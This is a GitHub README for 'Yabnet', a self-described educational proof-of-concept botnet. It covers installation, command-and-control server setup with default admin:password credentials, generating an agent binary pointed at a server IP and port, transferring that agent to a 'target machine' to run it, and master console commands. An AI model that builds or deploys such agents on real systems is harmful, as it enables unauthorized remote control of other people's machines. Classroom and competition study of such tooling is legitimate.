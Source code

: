 # Yabnet
Yet Another Botnet, PoC created for educational purposes only.

## Disclaimer
Yabnet is a proof of concept tool which is only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

## Under Construction
**Yabnet is currently under construction.**

## Installation 

**Due to laziness, yabnet currently requires to be installed in the /opt directory.**

```
cd /opt
git clone https://github.com/choisg/yabnet.git
cd /opt/yabnet
chmod +x install.sh
./install.sh
```

## Operation 

**Server setup**
```
<Change MASTERNAME and MASTERPASSWORD in server.py>
<Default is admin:password>

python3 /server/server.py
```
**Agent setup**

```
python3 ./agent/generator.py -i <server_ipaddress> -p <server_port>

Example) python3 ./agent/generator.py -i 192.168.204.128 -p 5000
```

`<Transfer ./agent/dist/agent_deploy_staticx to the target machine and run it>`

**Master setup**

After server and the agent is setup, launch the master console.
```
python3 /master/master.py
console# login -r localhost -u user -p pass
console# list
``` 

`< All master console commands have help flag>`
`Example) push -h`

